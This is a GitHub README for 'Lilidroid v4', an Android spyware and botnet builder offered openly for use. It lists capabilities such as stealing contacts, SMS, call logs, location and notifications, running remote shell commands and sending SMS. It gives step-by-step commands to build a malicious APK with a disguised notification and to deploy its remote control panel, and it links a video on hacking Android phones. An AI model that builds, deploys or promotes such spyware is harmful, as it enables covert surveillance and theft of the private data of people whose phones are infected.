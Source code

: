 # Lilidroid v4


It's easy to use android botnet work without port forwarding, vps and android studio


### Features
- Retrive Contact
- Retrive SMS
- Retrive Services
- Retrive Device Location (Only work when the app is open on newer devices)
- Retrive Call Logs
- Run Shell Command
- Change Wallpaper
- Send SMS
- Make Call
- Get Installed Apps
- Download File
- Read Notification
- Auto-Start (May not work on a couple of devices)

### Requirement

- Python3
- Java
- Linux os

### Java version i used
```bash
$ java -version
openjdk version "11.0.13" 2021-10-19
OpenJDK Runtime Environment (build 11.0.13+8)
OpenJDK 64-Bit Server VM (build 11.0.13+8, mixed mode)
```

### How to setup
- Set up an account at [deta.sh](https://web.deta.sh/) its free.
- Click Deploy to Deta Button to configure your control panel.
- Clone Lilidroid-phprat repo with the following command.
```bash 
$ git clone https://github.com/Voytho/Lilidroid
```
- cd in the Lilidroid-phprat directory, then type the command below to install all dependencies
```bash
$ pip install -r requirements.txt
```
- Run the following command to see the options that we can use with the builder.
```bash
$ python Lilidroid.py    



██╗░░░░░██╗██╗░░░░░██╗██████╗░██████╗░░█████╗░██╗██████╗░  ██╗░░░██╗░░██╗██╗
██║░░░░░██║██║░░░░░██║██╔══██╗██╔══██╗██╔══██╗██║██╔══██╗  ██║░░░██║░██╔╝██║
██║░░░░░██║██║░░░░░██║██║░░██║██████╔╝██║░░██║██║██║░░██║  ╚██╗░██╔╝██╔╝░██║
██║░░░░░██║██║░░░░░██║██║░░██║██╔══██╗██║░░██║██║██║░░██║  ░╚████╔╝░███████║
███████╗██║███████╗██║██████╔╝██║░░██║╚█████╔╝██║██████╔╝  ░░╚██╔╝░░╚════██║
╚══════╝╚═╝╚══════╝╚═╝╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝╚═════╝░  ░░░╚═╝░░░░░░░░╚═╝                                                                                                     


usage: Lilidroid.py [-h] [-v] [-b]

Lilidroid v4.0 - A tool to build lilidroid spyware for Android devices.

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Lilidroid
  -b , --build   Build Lilidroid with custom name [ex: Lilidroid.py -b lilidroid]
```
- To create an apk execute the following command.
```bash
$ python Lilidroid.py -b your_app_name
```
- It will prompt you with your Control Panel url enter your deta micro URL.
- You will also be prompted for the title and text of the notification. Enter what you want to display on the notification.
- DONE

[![Deploy](https://button.deta.dev/1/svg)](https://go.deta.dev/deploy?repo=https://github.com/Voytho/Lilidroidv4_api)

### Manually deploy the Lilidroid control panel
- Set up an account at [deta.sh](https://web.deta.sh/)
- Install [Deta Cli](https://docs.deta.sh/docs/cli/install)
- Logging in to Deta via the CLI
- Create a new Python Micro
- Clone [Lilidroidv4_api](https://github.com/Voytho/Lilidroidv4_api) repo
- Move all Lilidroidv4_api Files to your deta micro folder.
- Deploy the Control panel using the following command.
```bash
$ deta deploy
```
### Dashboard
- visit : https://{your server url}/v4/overview
- defualt username/password is : admin/admin

### Demo Video
- Youtube : [how to hack android phone using Lilidroid v4](https://www.youtube.com/)

### Support me
[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/felusiekf)

### Contact info 
- Email : felusiek@gmail.com
- Discord : https://discord.gg/

